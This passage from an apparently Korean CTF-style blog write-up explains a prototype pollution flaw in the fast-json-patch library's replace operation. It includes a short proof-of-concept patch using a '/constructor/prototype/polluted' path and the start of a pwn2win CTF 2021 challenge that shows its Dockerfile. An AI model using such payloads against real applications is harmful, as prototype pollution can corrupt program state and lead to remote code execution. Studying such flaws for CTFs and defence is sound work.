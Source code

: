 ```js
        return { newDocument: document, removed: removed };
    },
    copy: function (obj, key, document) {
        var valueToCopy = getValueByPointer(document, this.from);
        // enforce copy by value so further operations don't affect source (see issue #177)
        applyOperation(document, { op: "add", path: this.path, value: helpers_js_1._deepClone(valueToCopy) });
        return { newDocument: document };
    },
    test: function (obj, key, document) {
        return { newDocument: document, test: _areEquals(obj[key], this.value) };
    },
    _get: function (obj, key, document) {
        this.value = obj[key];
        return { newDocument: document };
    }
};
```
`objOps`를 보면 내부에 여러 함수들이 정의되어 있는 것을 볼 수 있다. `키:값`을 추가, 삭제, 리플레이스, 이동, 복사 등 등을 할 수 있는 것으로 보이고, 무엇을 실행할 지는 `objOps`에 인자로 넘어온 값을  통해서 판단하고 있다.

우리는 연산자로 `replace`를 보냈다.


```js
    replace: function (obj, key, document) {
        var removed = obj[key];
        obj[key] = this.value;
        return { newDocument: document, removed: removed };
    },
```
`replace()` 메서드를 확인해보면 key의 값을 `value`를 넣어주고 있는 것을 볼 수 있고, 바로 여기서 `Prototype Pollution` 취약점이 발생한다.

```js
const a = {};
const patch = [{op: "replace", path: "/constructor/prototype/polluted", value: "Prototype Pollution"}];
fastjsonpatch.applyPatch(a, patch);
```
우리는 위처럼 `path` 값을 전송을 했다. 그러니 내부 오퍼레이션에 의해서 와일문을 돌고, 제일 마지막 번째에서는 마치 `a['constructor']['prototype']['polluted']`와 같이 작동을 하게 되어 `Prototype Pollution`이 발생한다.

---
## Exploit (Web) pwn2win CTF 2021 [152 pts]

이번 주말에는 `pwn2win CTF 2021`이라는 대회가 열렸는데 해당 대회에서 웹 문제 중에 솔브가 제일 많은 문제가 `Prototype Pollution to RCE in ejs`를 이용한 문제였다. 하지만 삽질 실수를 해서 `Prototype Pollution` 공격을 하지 못 했고, 대회가 끝나고 롸업을 본 후에 `npm` 공식 사이트를 보니 거의 중간에 답이 있어서 매우 아쉬운 문제다.

```
FROM node:alpine

EXPOSE 1337

# copy flag
COPY flag.txt /root/flag.txt

# copy readflag binary (it just reads the flag)
COPY readflag /
RUN chmod 4755 /readflag

# install web application
COPY src /app
RUN cd /app && npm install

# change to guest user
```